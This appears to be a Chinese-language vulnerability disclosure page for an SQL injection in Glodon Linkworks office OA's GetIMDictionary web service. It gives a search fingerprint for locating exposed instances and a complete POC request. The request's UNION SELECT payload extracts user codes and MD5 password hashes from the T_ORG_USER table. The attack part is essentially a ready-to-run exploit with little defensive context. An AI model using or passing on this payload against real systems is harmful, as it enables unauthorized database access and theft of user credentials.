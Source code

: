 # 广联达 Linkworks GetIMDictionary SQL注入漏洞

## 漏洞描述

广联达 Linkworks办公OA GetIMDictionary接口存在SQL注入漏洞，发送请求包后可以获取数据库中的敏感信息

## 漏洞影响

<a-checkbox checked>广联达 Linkworks</a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="/Services/Identification/"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1691730736125-bbb199fa-01fb-4790-b2a7-d813481d8d88.png)

验证POC

```php
POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded

key=1' UNION ALL SELECT top 1 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --
```

![img](../../../.vuepress/public/img/1691730785445-8eb7507c-cb15-4876-801a-0be49781ccb2.png)